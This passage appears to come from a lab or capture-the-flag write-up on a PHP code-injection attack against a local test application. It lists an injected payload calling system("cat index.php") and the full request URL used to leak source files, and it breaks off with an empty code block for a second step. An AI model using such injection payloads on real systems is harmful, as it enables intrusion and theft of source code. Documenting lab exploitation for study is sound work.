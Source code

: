 \begin{itemize}
\tightlist
\item
  Leaking index page

  \begin{itemize}
  \item
    payload used
    \texttt{php\ \ \ \ \ \ \ \textquotesingle{}.\ system("cat\ index.php")\ .\textquotesingle{}}
  \item
    Application URL
    \texttt{javascript\ \ \ \ \ \ \ http://192.168.37.128/htdocs/index.php?account=173105291\&page=\ \ \ \ \ \ \ htbdetails\&query=\%27.+system\%28\%22cat+index.php\%22\%29+.\%27\&\ \ \ \ \ \ \ submit=Submit+Query}
  \item
    \textbf{Result}

    \includegraphics{images/task2/leak_source_1.PNG}
  \end{itemize}
\item
  Leaking login.php page

  \begin{itemize}
  \tightlist
  \item
    payload used
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\end{Highlighting}
\end{Shaded}


\end{itemize}
